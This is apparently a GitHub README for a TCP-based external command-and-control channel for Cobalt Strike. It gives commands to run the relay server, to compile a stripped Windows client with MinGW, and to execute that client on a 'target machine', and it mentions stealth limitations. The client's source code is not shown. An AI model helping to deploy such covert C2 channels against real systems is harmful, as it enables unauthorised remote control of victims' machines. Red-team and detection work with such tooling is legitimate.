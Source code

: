 # COBALT STRIKE TCP CHANNEL

This project provides a TCP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any TCP-based protocol.

To use the channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

To start the server, run the following command:

> python3 [Name].py [Teamserver IP] [Python Server IP] [Port] [Pipename]

- [Name] is the name of your Python server.
- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server listens on to communicate with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any valid pipename.  

If you have the MinGW compiler installed, you may compile the client C code with the following command:

>i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe [Python Server IP] [Port] [Pipename]

- [Name] is the name of your client executable.
- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.

## CONSTRAINTS

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- This channel does not disconnect its beacon connection. If the server goes down, the client will continue sending packet retransmissions to the dead IP address until the process is killed. (Unless there is a read error on the socket) This may pose stealth issues.
- Once a connection is established, it keeps the TCP connection open until the client is terminated. This can result in extreamly long lasting TCP sessions.
- Mudge defined max payload size as 512 \* 1024 and max buffer size as 1024 \* 1024.

## TODOS/IMPROVEMENTS

- Close TCP connection when sleeping.
- Handle multiple clients on one server.
